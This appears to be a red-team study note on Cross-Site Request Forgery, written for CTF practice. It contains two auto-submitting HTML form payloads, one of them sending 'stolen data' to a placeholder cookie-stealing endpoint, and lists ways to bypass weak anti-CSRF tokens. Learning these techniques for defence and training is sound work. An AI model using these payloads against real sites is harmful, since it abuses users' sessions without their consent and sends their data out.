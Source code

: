 # Cross-Site Request Forgery

[![introductiontowebapplications](../../../../_badges/htb/introductiontowebapplications.svg)](https://academy.hackthebox.com/course/preview/introduction-to-web-applications)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![cross-site_request_forgery_prevention](../../../../_badges/owasp/cross-site_request_forgery_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
[![csrf_injection](../../../../_badges/poat/csrf_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)
[![csrf_0_protection](../../../../_badges/rootme/web_client/csrf_0_protection.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection)
[![csp_bypass_inline_code](../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

<div class="row row-cols-lg-2"><div>

Fundamentally, Cross-Site Request Forgery (CSRF) refers to using the session of a user logged to a website to perform API calls without their consent. For instance, an API call to modify their password.

If a cookie was set with `SameSite: None` which is not the default, it can be accessed and exploited from any site.

Many modern browsers have built-in anti-CSRF measures, such as with the `Content-Security-Policy` header ([refer to CSP](files/csp.md)).

[XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md) is a common attack technique to perform a CSRF attack, by injecting a form that automatically submit itself.

📚 During CTFs, it may take between one and five minutes.
</div><div>

You can find payloads on [PayloadsAllTheThings/CSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection). You can test the payload with a [HTTP Requests Grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md) first during CTFs.

```html!
<form id="autosubmit" action="https://<target_form_URL>" method="post">
  <input type="text" name="xxx" value="yyy" hidden>
  <button type="submit">Submit</button>
</form>
<script>
 document.getElementById("autosubmit").submit();
</script>
```

```html!
<form id="fdata" action="//refer/to/stealing/cookies" method="POST">
<input type="hidden" id="data" name="data" value="nop" />
<input type="submit" value="Submit" />
</form>
<script defer>
document.getElementById('data').value='stolen data';
document.getElementById('fdata').submit();
</script>
```
</div></div>

<hr class="sep-both">

## Anti-CSRF Token

[![sqlmapessentials](../../../../_badges/htb/sqlmapessentials.svg)](https://academy.hackthebox.com/course/preview/sqlmap-essentials)
[![session_security](../../../../_badges/htb/session_security.svg)](https://academy.hackthebox.com/course/preview/session-security)
[![gitlabcve20237028](../../../../_badges/thm-p/gitlabcve20237028.svg)](https://tryhackme.com/r/room/gitlabcve20237028)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

Some websites have a CSRF token, mostly attached to HTML forms, as a form of protection against CSRF attacks and other automation tools.

It's a generated value that is added to the form, often as a hidden HTML `<input>` field. It proves that someone submitting a form effectively visited the page with the form beforehand.

CSRF tokens should be randomly generated. Do not use `md5(username)` or similar guessable token generation functions.

Many tools have built-in switches to handle/bypass such forms.
</div><div>

A few other inappropriate settings

* The server only checks if the header is present
* The server only checks if the length of the token
* The server only checks the token if it was sent
* We can use someone else's CSRF token
* We can reuse a CSRF token
* Verb tampering may bypass CSRF verification

There is also the [Double-Submit Cookie Pattern](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html#alternative-using-a-double-submit-cookie-pattern) but it can be bypassed by giving an arbitrary value to both the cookie and the header.
</div></div>